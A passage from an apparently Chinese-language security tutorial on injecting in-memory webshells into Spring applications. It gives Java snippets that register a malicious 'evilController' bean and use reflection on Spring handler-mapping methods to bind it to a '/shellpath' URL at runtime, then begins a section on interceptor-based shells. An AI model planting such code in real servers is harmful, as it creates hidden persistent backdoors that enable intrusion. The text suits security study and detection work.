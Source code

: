 ```java
            }
        };
    }
}


```  
使用如果使用SpringBoot 2.6.0或更高版本会有lookupPath错误.
2. 针对以前的映射器可以通过以下思路,注意该方式需要在`evilController`使用RequestMapping指定对应方法的路径.  
```java
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", new evilController());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/shellpath", "dynamicController");
```
3. 针对新的映射器也可以调用`detectHandlerMethods`来注册,该方式也需要在`evilController`使用RequestMapping指定对应方法的路径.
```java
context.getBeanFactory().registerSingleton("dynamicController", new evilController());
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```  
原理都是知道正常controller注册的流程后,直接反射调用正常流程中某一个步骤构造对应参数调用即可.  
![](2023-01-30-17-58-18.png)
#### Interceptor 
Interceptor即Spring中的拦截器,类似于Servlet中的Filter,而Interceptor针对Controller进行拦截,在指定的Controller执行之前会先调用Interceptor.
在HandlerInterceptor接口中,其提供了如下几个接口.  